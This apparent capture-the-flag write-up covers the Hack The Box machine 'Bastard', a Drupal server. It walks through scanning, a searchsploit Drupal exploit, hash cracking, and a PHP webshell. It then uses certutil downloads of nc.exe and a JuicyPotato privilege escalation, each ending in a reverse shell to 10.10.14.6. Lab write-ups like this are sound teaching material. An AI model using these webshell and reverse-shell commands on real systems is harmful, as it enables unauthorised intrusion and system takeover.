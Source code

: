 # Bastard

### Nmap Full port scan (TCP)

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

### Nmap Aggressive scan

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### Enumerating Web Server

Drupal —> droopscan

```bash
droopescan scan drupal -u http://10.10.10.9/ -t 32
```

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

`searchsploit -m 41564`

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

Change this part of the code

<figure><img src="../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

Install `php-curl` using `apt-get install php-curl`

Run the exploit using `php 41564.php`

<figure><img src="../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

`user.json`

<figure><img src="../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

Identify the hash type using `hashcat --identify admin.hash`

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

Brute-forcing the hash

`hashcat -m 7900 -a 0 admin.hash /usr/share/wordlists/rockyou.txt`

…. takes way too long so I decided to just obtain RCE from the box

Putting in a php one-liner webshell `<?php system($_GET["cmd"]); ?>`

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Able to use the webshell by go to the URL:

[`http://10.10.10.9/cmd.php?cmd=whoami`](http://10.10.10.9/cmd.php?cmd=whoami)

<figure><img src="../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

`http://10.10.10.9/cmd.php?cmd=certutil -urlcache -f <http://10.10.14.6/nc.exe> c:\\\\windows\\\\temp\\\\nc.exe`

<figure><img src="../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>

To obtain a user shell, use the following command

`http://10.10.10.9/cmd.php?cmd=nc.exe -e cmd.exe 10.10.14.6 443`

<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

* `whoami /priv`

![](<../../.gitbook/assets/image (184).png>)

* `SeImpersonatePrivilege` is enabled —> juicypotato attack?
* Transfer `juicypotato.exe` to the victim

```bash
certutil -urlcache -f http://10.10.14.6/juicypotato.exe juicypotato.exe
```

* For win server 2012 —> CLSID {C49E32C6-BC8B-11d2-85D4-00105A1F8304}

```bash
juicypotato.exe -l 1337 -p c:\\windows\\system32\\cmd.exe -a "/c C:\\inetpub\\drupal-7.54\\nc.exe -e cmd.exe 10.10.14.6 4444" -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
```

* GOT ROOT!

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>
